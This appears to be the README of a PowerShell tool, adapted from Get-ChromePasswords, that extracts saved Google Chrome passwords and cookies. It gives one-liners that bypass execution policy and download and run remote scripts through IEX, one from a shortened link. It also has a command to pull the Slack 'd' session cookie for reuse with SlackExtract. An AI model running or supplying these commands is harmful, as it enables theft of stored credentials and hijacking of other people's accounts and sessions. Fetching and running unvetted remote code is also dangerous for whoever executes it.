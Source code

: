 Note: Most of this code comes from https://github.com/et0x/Get-ChromePasswords, I've only mildly tweeked it and added in cookie dumping.

# Get-ChromePasswords
```PowerShell
.Synopsis
  Quickly retrieve Google Chrome passwords using powershell (please note this creates sqlite assemblies in your temp directory)

.PARAMETER Path
  
  The optional path to a non-standard database location for the Google Chrome Login Data database.  Generally found at '<APPDATA>\Local\Google\Chrome\Default\Login Data'

.EXAMPLE
  PS> .\Get-ChromePasswords

  Url                                                                                                    Username                  Password
  ---                                                                                                    --------                  --------
  https://accounts.google.com/signin/challenge/sl/password                                               user1                     password
  ...
```

## Quick mode...

```PowerShell
  C:\> powershell -exec bypass -c "IEX((new-object net.webclient).downloadstring('https://bit.ly/2OMBArT'));Get-ChromeCreds"
```

## Just pull "d" Cookie for use with SlackExtract...

```PowerShell
IEX((new-object net.webclient).downloadstring('https://gist.githubusercontent.com/clr2of8/71835ab9b63ed829a3d8763bf4ebb003/raw/c88c7c6ca42b7ba652b10f75b4ec6d0704519500/cc'));Get-CC -SE
```

